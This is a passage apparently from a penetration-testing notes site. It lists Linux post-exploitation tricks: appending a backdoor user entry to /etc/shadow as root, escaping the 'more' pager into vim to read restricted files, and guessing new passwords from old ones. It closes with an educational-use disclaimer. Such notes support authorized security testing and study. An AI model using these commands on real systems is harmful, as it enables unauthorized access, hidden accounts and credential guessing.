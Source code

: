     You need to do as root privileges.

    ```sh
    echo '<new-user-name>:<generated-password-hash>:19115:0:99999:7:::' >> /etc/shadow
    ```

3. **Switch to New User**

    To confirm, switch to generated new user.

    ```sh
    su <new-user>
    ```

<br />

## Display the Content of Files You Don't Have Permissions

Using **"more"** command.

### 1. Make the Terminal's Window Size Smaller

### 2. Run "more" Command

The text like "--More--(60%)" will be appeared.

### 3. Press 'v' on Keyboard to Enter Vim Mode

### 4. Enter ':e ~/somefile'

<br />

## Password Guessing from Old One

```sh
password2021 -> password2022, password2023
april123 -> may123, june123
apple -> banana, orange
```

# Disclaimer
```
Exploit Notes are only for educational purpose or penetration testing, not attacking servers that you're not authorized. This site will not take any responsibility even if you attack the server illegally or cause damage unintentionally. Please use the contents in this site at your own risk.
The contents of this site are not original, but based on the information on the internet, the author actually tried and functioned. Although the author strives to post the latest information on the content of this site as much as possible, there is no guarantee that it will always be new.
```